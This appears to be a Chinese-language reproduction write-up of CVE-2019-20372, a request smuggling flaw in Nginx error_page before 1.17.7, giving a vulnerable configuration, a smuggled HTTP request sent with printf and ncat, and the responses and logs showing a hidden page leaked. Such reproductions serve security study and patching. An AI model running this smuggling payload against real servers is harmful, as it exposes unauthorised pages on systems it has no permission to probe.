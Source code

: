 ```yaml
---
title: （CVE-2019-20372）Nginx error_page 请求走私漏洞
id: zhfly3048
---
```


# （CVE-2019-20372）Nginx error_page 请求走私漏洞

## 一、漏洞简介

Nginx 1.17.7之前版本中 error_page 存在安全漏洞。攻击者可利用该漏洞读取未授权的Web页面。

## 二、漏洞影响

Ngnix < 1.17.7

## 三、复现过程

> 错误配置

```
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name notlocalhost;
 location /_hidden/index.html {
 return 200 'This should be hidden!';
 }
} 
```

这时候我们可以向服务器发送以下请求

```
GET /a HTTP/1.1
Host: localhost
Content-Length: 56
GET /_hidden/index.html HTTP/1.1
Host: notlocalhost 
```

我们看一下服务器是怎么处理的

```
printf "GET /a HTTP/1.1\r\nHost: localhost\r\nContent-Length: 56\r\n\r\nGET
/_hidden/index.html HTTP/1.1\r\nHost: notlocalhost\r\n\r\n" | ncat localhost 80 --noshutdown 
```

等于说是吧两个请求都间接的执行了，我们看一下burp里面的返回值

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive
This should be hidden! 
```

再一下nginx服务器里面的日志

```
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /a HTTP/1.1" 302 145 "-" "-" "-"
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /_hidden/index.html HTTP/1.1" 200 22 "-" 
```